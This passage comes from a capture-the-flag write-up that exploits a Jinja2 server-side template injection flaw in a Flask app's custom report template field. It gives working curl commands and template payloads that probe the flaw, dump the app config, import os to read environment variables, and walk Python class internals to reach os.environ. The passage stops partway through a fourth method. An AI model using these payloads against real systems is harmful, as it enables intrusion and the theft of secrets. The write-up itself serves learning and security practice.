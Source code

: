 The report generation feature at `/admin/generate_report` caught my attention. It allowed users to:
1. Select subjects for reports
2. Choose report formats
3. **Enter custom templates** - This was the vulnerable functionality

Testing the custom template field with a simple Jinja2 expression:

```bash
curl -b cookies.txt -X POST \
  -d "subject_ids=1&report_type=html&custom_template={{7*7}}" \
  http://challs.0x4m4.com:8081/admin/generate_report
```

The response showed `49`, confirming Server-Side Template Injection (SSTI) vulnerability!

## Exploitation: Multiple Attack Vectors

### Method 1: Direct Configuration Access

The simplest approach was accessing Flask's configuration:

```bash
curl -b cookies.txt -X POST \
  -d "subject_ids=1&report_type=html&custom_template={{config.items()}}" \
  http://challs.0x4m4.com:8081/admin/generate_report
```

This revealed various configuration settings, but the flag wasn't directly visible.

### Method 2: Environment Variable Access

Using Python's `os` module through SSTI to access environment variables:

```bash
curl -b cookies.txt -X POST \
  -d "subject_ids=1&report_type=html&custom_template={{ request.application.__globals__.__builtins__.__import__('os').environ.get('FLAG') }}" \
  http://challs.0x4m4.com:8081/admin/generate_report
```

### Method 3: Class Introspection

A more sophisticated approach using Python's class introspection:

```python
# First, find available classes
{{ ''.__class__.__mro__[1].__subclasses__() }}

# Then access the os module through a suitable class
{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['os'].environ }}
```

### Method 4: Using Built-in Objects

Leveraging Jinja2's built-in objects:
